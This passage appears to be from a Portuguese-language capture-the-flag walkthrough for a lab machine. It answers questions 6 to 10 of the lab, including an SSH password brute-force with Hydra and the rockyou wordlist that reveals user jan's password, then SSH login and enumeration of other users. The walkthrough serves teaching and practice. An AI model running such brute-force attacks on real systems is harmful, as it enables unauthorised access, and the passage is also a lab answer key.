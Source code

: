 **Resposta:** `jan`

---

### 6. Qual é a senha?
Agora que temos o nome do usuário, podemos tentar fazer um brute force para encontrar a senha SSH do usuário jan. Para isso, utilizamos a ferramenta `Hydra` com a wordlist `rockyou.txt`:

```bash
┌──(root㉿kali)-[/home/kali]
└─# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.201.18.169      
[STATUS] 189.33 tries/min, 568 tries in 00:03h, 14343833 to do in 1262:40h, 14 active
[22][ssh] host: 10.201.18.169   login: jan   password: armando
```
**Resposta:** `armando`

---

### 7. Que serviço você usa para acessar o servidor (resposta abreviada em letras maiúsculas)?

**Resposta:** `SSH`

---

### 8. Enumere a máquina para encontrar quaisquer vetores para escalonamento de privilégios

**Resposta:** `Não é necessária resposta`

---

### 9. Qual é o nome do outro usuário que você encontrou (todos em letras minúsculas)?

Após acesso SSH com o usuário `jan`, listamos os diretórios no `/home` para verificar a presença de outros usuários:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh jan@10.201.18.169

jan@ip-10-201-18-169:~$ pwd
/home/jan
jan@ip-10-201-18-169:~$ ls /home
jan  kay  ubuntu
```
Além do usuário `jan`, identificamos o usuário `kay`.

**Resposta:** `kay`

---

### 10. Se você encontrou outro usuário, o que pode fazer com essas informações?
